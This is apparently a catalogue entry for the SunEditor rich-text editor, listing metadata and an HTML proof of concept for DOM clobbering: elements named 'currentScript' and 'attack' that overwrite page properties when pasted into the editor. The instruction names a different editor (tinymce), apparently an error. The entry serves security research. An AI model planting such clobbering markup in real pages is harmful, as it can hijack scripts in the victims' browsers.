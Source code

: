 ## SunEditor

### Meta

+ Library: SunEditor
+ Version: v2.47.0
+ Stars: 1.7K
+ Fingerprint: `typeof window.SUNEDITOR !== undefined`
+ Input: Type
+ Sanitizer: N/A
+ Capability: `a` tag with `id`
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/JiHong88/SunEditor

### PoC

```html
<!--Library-->
<link href="https://cdn.jsdelivr.net/npm/suneditor@latest/dist/css/suneditor.min.css" rel="stylesheet">
<!-- <link href="https://cdn.jsdelivr.net/npm/suneditor@latest/assets/css/suneditor.css" rel="stylesheet"> -->
<!-- <link href="https://cdn.jsdelivr.net/npm/suneditor@latest/assets/css/suneditor-contents.css" rel="stylesheet"> -->
<script src="https://cdn.jsdelivr.net/npm/suneditor@latest/dist/suneditor.min.js"></script>
<!-- languages (Basic Language: English/en) -->
<script src="https://cdn.jsdelivr.net/npm/suneditor@latest/src/lang/ko.js"></script>

<textarea id="sample">Hi</textarea>
const editor = SUNEDITOR.create((document.getElementById('sample') || 'sample'),{
    // All of the plugins are loaded in the "window.SUNEDITOR" object in dist/suneditor.min.js file
    // Insert options
    // Language global object (default: en)
    lang: SUNEDITOR_LANG['ko']
});
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor and Run the following code: tinymce.activeEditor.getContent("default");</p>
<!--Payload-->
```